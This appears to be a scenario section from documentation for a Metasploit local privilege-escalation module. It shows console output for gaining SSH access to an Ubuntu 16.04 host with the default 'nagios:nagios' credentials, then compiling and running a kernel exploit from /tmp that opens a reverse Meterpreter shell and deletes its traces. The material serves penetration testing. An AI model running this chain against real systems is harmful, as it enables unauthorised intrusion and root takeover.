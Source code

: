 ## Scenarios

### Ubuntu 16.04.1 (with linux-image-4.4.0-21-generic)

#### Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    msf auxiliary(ssh_login) > set username nagios
    username => nagios
    msf auxiliary(ssh_login) > set password nagios
    password => nagios
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'nagios:nagios' 'uid=1000(nagios) gid=1000(nagios) groups=1000(nagios),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1001(nagcmd) Linux nagios 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (127.0.0.1:36085 -> 127.0.0.1:22) at 2016-09-16 01:15:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [+] libc6-dev-i386 is installed
    [+] gcc-multilib is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing desc executable to /tmp/fI1xW1Js.c
    [*] Max line length is 65537
    [*] Writing 3291 bytes in 1 chunks of 11490 bytes (octal-encoded), using printf
    [*] Executing /tmp/fI1xW1Js, may take around 35s to finish.  Watching for /tmp/GWqpwKnG to be created.
    [*] Waited 0s so far
    [*] Waited 10s so far
    [*] Waited 20s so far
    [*] Waited 30s so far
    [+] desc finished, env ready.
    [*] Writing payload to /tmp/Thzyfenv
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/wmfFiQKu.c
    [*] Max line length is 65537
    [*] Writing 1326 bytes in 1 chunks of 4699 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:60982) at 2016-09-24 17:22:47 -0400
    [+] Deleted /tmp/fI1xW1Js.c
    [+] Deleted /tmp/GWqpwKnG
    [+] Deleted /tmp/fI1xW1Js
    [+] Deleted /tmp/Thzyfenv
    [+] Deleted /tmp/wmfFiQKu.c
    [+] Deleted /tmp/wmfFiQKu
    